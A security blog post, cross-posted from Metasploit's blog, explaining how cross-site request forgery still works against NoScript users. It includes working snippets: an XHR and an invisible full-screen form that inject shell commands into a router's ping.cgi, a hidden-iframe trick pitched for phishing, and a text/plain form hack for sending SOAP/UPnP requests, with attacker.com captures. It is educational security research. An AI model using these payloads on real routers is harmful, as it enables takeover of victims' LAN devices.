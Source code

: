 ```yaml
---
layout: post
title: "Exploiting CSRF under NoScript Conditions "
---
```


(Note: this is a cross-post of an article I wrote for Metasploit's blog. The original post can be found [here](https://community.rapid7.com/community/metasploit/blog/2014/04/15/exploiting-csrf-without-javascript).)

CSRFs - or [Cross-Site Request Forgery](https://www.owasp.org/index.php/CSRF) vulnerabilities - occur when a server accepts requests that can be “spoofed” from a site running on a different domain. The attack goes something like this: you, as the victim, are logged in to some web site, like your router configuration page, and have a valid session token. An attacker gets you to click on a link that sends commands to that web site on your behalf, without your knowledge.
 
These vulnerabilities can be especially handy to attackers when trying to exploit something on the the victim's LAN. The most common way to spoof requests is just by sending an [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest) (XHR) from a site under the attacker’s control: all browsers will let you send GET/POST with arbitrary data and content-type to a cross-domain endpoint. Of course, due to the [Same Origin Policy](http://www.w3.org/Security/wiki/Same_Origin_Policy) (SOP), this is a “fire and forget” operation. There is usually no way to read the contents of the cross domain response:
 
    var xhr = new XMLHttpRequest;
    xhr.open('POST', 'http://192.168.1.1/ping.cgi', false);
    xhr.send('?pingstr='+encodeURIComponent('& echo abc123 > /tmp/bin; chmod ..'));

The usual advice is to disable Javascript on untrusted sites, either through whitelisting or blacklisting, and usually using something like Mozilla's [NoScript add-on](https://addons.mozilla.org/en-US/firefox/addon/noscript/). Does this mean NoScript users are immune to CSRF attacks? After all, without Javascript, an arbitrary domain can’t just fire off malicious XMLHttpRequests - they don't trigger when Javascript is disabled.
 
#### How does NoScript help prevent CSRF?
 
Unfortunately, NoScript doesn’t actually do much to prevent CSRF. The obvious example is an `<img>` tag, which does a GET request on the `src` attribute, regardless of what domain is used. But POST routes are often more desirable, since they are supposed to be used for mutating server state.
 
The typical way an attacker will handle `POST` CSRFs on NoScript users is with a form that submits data to a cross domain endpoint, and get the user to unknowingly click it. The submit button is styled to take up the entire screen, and voila! You have a 1-click exploit:
 
 
    <form method='post' action='http://192.168.1.1/ping.cgi' target='f'>
      <input type='hidden' name="pingstr" value="& echo abc12312..." />
      <input type='submit' value="" style="position:absolute;position:fixed;top:0;left:0;width:1200px;height:1200px;background:#fff;opacity:0;" />
    </form>
    <iframe name='f' id='f' style='position:absolute;left:-500px;top:-500px;height:1px;width:1px'></iframe>
 
So when the user clicks anywhere on the page, they submit the invisible form. The form’s target attribute is set to a hidden iframe, so that the unknown form submission does not even navigate the top-level page, so the user has no idea that a request just happened (this is handy for phishing).
 
Note: if the pingstr parameter looks familiar, you might have seen it in `exploit/linux/http/linksys_wrt110_cmd_exec`. Many of [Metasploit](https://metasploit.com)'s router exploits can be triggered via CSRF.
 
Now, how to get the user to click the page? There are a million ways to do this, but one easy and reliable trick is to just put a “Redirecting…” link at the top of the page. Eventually the user will get tired of waiting for the redirect to load and will click the link (I know I do this at least).
 
#### What about non-HTTP protocols?
 
It is known that the UPnP interfaces in certain routers will take SOAP requests that can be easily spoofed, which can be abused to forward internal ports from the LAN on to the Internet. With AJAX, arbitrary data can be inserted into a POST request, by calling ajax.send(data).
 
But if you try and use the <form> vector, you will find that you cannot send arbitrary data after the request headers. You can set enctype="text/plain" on the form, which prevent the parameters from being formatted and URL encoded:
 
    <form method='post' enctype='text/plain' action='http://192.168.1.1/upnp.cgi'>
      <input type='hidden' name="blah" value="<SOAP document...>" />
      <input type='submit' value="submit" style="position:fixed;top:0;left:0;width:1200px;height:1200px;background:#000;opacity:0;" />
    </form>

But there will always be some leading garbage on the request (in this instance, the "blah=" string):
 
    POST /ping.cgi HTTP/1.1
    Host: 192.168.0.5:5000
    Connection: keep-alive
    Content-Length: 23
    Cache-Control: max-age=0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Origin: http://attacker.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.152 Safari/537.36
    Content-Type: text/plain
    Referer: http://attacker.com
    Accept-Encoding: gzip,deflate,sdch
    Accept-Language: en-US,en;q=0.8

    blah=<SOAP document...>
 
Depending on the protocol, you can often find ways to turn that leading garbage into something that is ignored by the server, like an XML comment:
 
    <input type='hidden' name="<!--" value="--><SOAP document...>" />

    POST /ping.cgi HTTP/1.1
    Host: 192.168.0.5:5000
    Connection: keep-alive
    Content-Length: 26
    Cache-Control: max-age=0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Origin: http://attacker.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.152 Safari/537.36
    Content-Type: text/plain
    Referer: http://fiddle.jshell.net/_display/
    Accept-Encoding: gzip,deflate,sdch
    Accept-Language: en-US,en;q=0.8
    
    <!--=--><SOAP document...>

Finally, one interesting fact of `<noscript>` CSRF exploits is that they can often be triggered straight from the user’s web-based email. Most webmail applications will alert the user when the submit button is clicked, often with a message along the lines of “You are submitting data to an external page, are you sure you want to do this?”. One accidental “OK”, and the victim’s router/webapp/internal device is owned.
 
Now, how can a NoScript user prevent this from happening? The short answer for now is "don't click anything on the Internet". Not terribly practical. Of course, you can inspect the source of every page you visit, just like you already inspect the source code of every software application you intend to install. Right, nobody actually does that -- Javascript obfuscation alone makes this basically impossible. So, to reiterate in TL;DR format:
 
#### In 2014, default NoScript techniques do not actually protect you against CSRF.
 
Sorry for maybe ruining your day. If you have any advice as to how to practically resolve this problem, feel free to comment below.
 
Update: [NoScript ABE](http://noscript.net/abe/) allows you to blacklist certain types of requests
 
Big thanks to commentor @ma1 for pointing out the ABE component of NoScript, available in NoScript Preferences -> Advanced -> ABE. ABE allows you to define which origins are allowed to communicate to one another. By default, requests from non-LAN sites to a host on the LAN are blocked. My testing on this issue was flawed and my initial results were incorrect. It would be interesting to see how ABE stands up to a [DNS rebinding attack](https://en.wikipedia.org/wiki/DNS_rebinding) into a LAN. However, CSRFs are still very possible in noscript across other (non-LAN) origins, or from a "rogue" LAN host into another LAN host, unless you explicitly create rules to prevent this.
